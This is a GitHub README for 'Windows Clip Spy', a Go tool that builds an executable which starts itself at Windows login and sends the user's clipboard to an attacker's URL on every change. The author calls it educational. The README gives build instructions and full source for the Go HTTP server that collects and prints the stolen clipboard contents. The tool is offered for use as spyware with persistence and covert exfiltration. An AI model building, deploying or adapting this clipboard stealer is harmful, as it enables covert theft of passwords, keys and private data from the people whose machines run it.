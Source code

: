 # 👓 Windows Clip Spy

### Description 

💻 This is a terminal tool 🔧 which generates an executable to send your clipboard on each update to an attacker 🏹. Made with educational porpuses

## Purpouse 

📖 Learn 

 - how to interact with Windows to start a programm on the OS init
 - get the clipboard on updates
 - create a simple terminal tool from scratch to generate executables
 - make golang background programs

## Technologies used 📘

### Golang  (Go)

#### Pakages  📦:

 1. clipboard (Get the clipboard)
 2. go-autostart (Start on the Windows init)
 3. go-toml (Set and get config vars between the terminal tool and the final executable)

## How to use it

### Prerequisites :
 - go 1.18
#### Clone the repository 📎
    git clone https://github.com/PiterWeb/WindowsClipSpy
    cd WindowsClipSpy
#### Install all the packages 📉

    go mod install
    go mod verify

#### Build the terminal tool 👷‍♂️

    go build .
    # This will generate the tool on an executable at the root folder of the project

#### Use the tool 🔨

Open the executable and introduce the config in the terminal that will appear

#### Listen for the clipboard on the url you specified 🔊

I had prepare the code for the server with the go http package.
This code should be runned on a different folder to work well.

    // <otherfolder>/server.go
    
    package  main
    
    import (
	    "fmt"
	    "io/ioutil"
	    "log"
	    "net/http"
    )
    
    const (
	    Port = "8080"
	    Host = "localhost"
	)
	
	func main() {
		fmt.Println("Server is running on port: ", Port)
		
		http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		
			body, err  := ioutil.ReadAll(r.Body)
			
			if err !=  nil {
				log.Fatal(err)
			}
			
			fmt.Println(string(body))
		})
		
		http.ListenAndServe(Host+":"+Port, nil)
	}
	
  ---
  

	cd <otherfolder>
    go mod init github.com/PiterWeb/WindowsClipSpy/server
    go run server.go


